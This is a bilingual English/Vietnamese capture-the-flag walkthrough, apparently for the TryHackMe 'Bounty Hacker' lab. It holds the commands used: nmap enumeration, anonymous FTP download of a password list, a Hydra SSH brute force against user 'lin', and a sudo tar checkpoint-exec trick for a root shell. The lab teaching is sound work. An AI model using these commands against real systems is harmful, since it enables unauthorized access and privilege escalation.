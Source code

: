 ## Write up Bounty Hacker
---
## TL;DR (Quick summary)  
- Boot2root style box: enumerate → anonymous FTP → collect wordlist → brute SSH → get user flag → abuse `sudo tar` to get root.  
( Tóm tắt: quét → FTP anonymous → lấy danh sách mật khẩu → brute SSH → lấy flag user → lợi dụng `sudo tar` để lên root. )

---

## Goals / Objectives  
1. Find `user.txt` (user flag). (Tìm `user.txt`.)  
2. Find `root.txt` (root flag). (Tìm `root.txt`.)  

---

## Environment & Tools  
- Kali / Parrot / AttackBox (terminal)  
- nmap, ftp, hydra (or similar), ssh, tar  
( **Môi trường & công cụ:** Kali / Parrot / AttackBox, nmap, ftp, hydra, ssh, tar )

---

## 1) Enumeration — Nmap
**Command**
```bash
sudo nmap -sV -sC -v -oN nmap_initial <TARGET_IP>
```
**What we expect**
- Found open ports: `21/tcp (ftp)`, `22/tcp (ssh)`, `80/tcp (http)`.  
( Kết quả mong đợi: port mở: 21 (ftp), 22 (ssh), 80 (http). )

---

## 2) Visit web (port 80)
- Open `http://<TARGET_IP>` in browser. The page is simple (banner / theme) and doesn't immediately expose credentials.  
( Mở trang web, chỉ có banner/giao diện, không thấy creds ngay lập tức. )

---

## 3) FTP — try anonymous
**Commands**
```bash
ftp <TARGET_IP>
# when prompted:
# username: anonymous
# password: anything (or press enter)
ls -la
get locks.txt
get task.txt
quit
```
**Notes**
- Anonymous FTP allowed. We find `locks.txt` (a password list/munge list) and `task.txt` (contains author info / hints).  
( FTP anonymous cho phép. Tìm thấy `locks.txt` (danh sách mật khẩu) và `task.txt` (thông tin/gợi ý). )

---

## 4) Read the files
```bash
cat task.txt     # contains author / clue (e.g., name "lin")
less locks.txt   # contains many candidate password variations
```
**Use**
- `task.txt` reveals the username to try (e.g., `lin`).  
- `locks.txt` is used as a password list for brute forcing SSH.  
( `task.txt` lộ username (ví dụ `lin`). `locks.txt` làm wordlist cho brute SSH. )

---

## 5) Bruteforce SSH with Hydra (or similar)
**Command**
```bash
hydra -l lin -P locks.txt ssh://<TARGET_IP>
```
**Result**
- Hydra finds the password for `lin` (in writeups it's commonly reported as an example).  

---

## 6) SSH in as lin (user)
**Command**
```bash
ssh lin@<TARGET_IP>
# password: <found_password>
```
**After login**
```bash
whoami
ls -la
cat user.txt            # get user flag
```
**Example user flag**
```
THM{EXAMPLE_USER_FLAG}
```
( SSH đăng nhập bằng tài khoản `lin`, cat `user.txt` để lấy flag user. )

---

## 7) Privilege Escalation — sudo rights
**Check sudo rights**
```bash
sudo -l
```
- You should see that `lin` can run `tar` with `sudo` (i.e., `lin ALL=(root) NOPASSWD: /bin/tar` or similar).  
( Chạy `sudo -l` để kiểm tra; tài khoản `lin` có quyền chạy `tar` bằng sudo.)

---

## 8) Abuse `tar` via GTFOBins to spawn root shell
**Why this works**
- GNU `tar` supports `--checkpoint` and `--checkpoint-action=exec` which can be used to execute a command as the running user; if run under `sudo` it runs as root. GTFOBins documents this exact technique.  
( `tar` có tuỳ chọn `--checkpoint-action=exec` để thực thi lệnh; nếu chạy bằng `sudo` thì lệnh đó sẽ chạy với quyền root — chiêu này có trên GTFOBins.)
- Hoặc lên trang GTFOsbins để tìm payload

**Command (get root shell)**
```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
# now you should have a root shell
whoami   # should output: root
cat /root/root.txt
```
**Example root flag**
```
THM{EXAMPLE_ROOT_FLAG}
```
( Dùng `sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh` để spawn shell root, rồi `cat /root/root.txt` để lấy flag root. )

---

## 9) Cleanup & notes
- All steps above follow standard enumeration → exploit flow. If `tar` trick doesn't work, re-check `sudo -l` output and verify GNU tar presence. Alternative escalation vectors: search for SUID binaries, writable files, scheduled jobs, etc. Tools like `linpeas` help enumerate faster.  
( Nếu chiêu `tar` không ăn, kiểm tra lại `sudo -l` và đảm bảo có GNU tar. Ngoài ra tìm kiếm SUID, cron, file writable; `linpeas` hỗ trợ tự động enum. )

---

## References / Further reading
- TryHackMe — Bounty Hacker room page.  
- GTFOBins — tar (privilege escalation technique).  
- Community writeups and walkthroughs (InfosecWriteups, Medium, blogs).  
( Tham khảo: trang TryHackMe, GTFOBins, các writeup cộng đồng. )

---

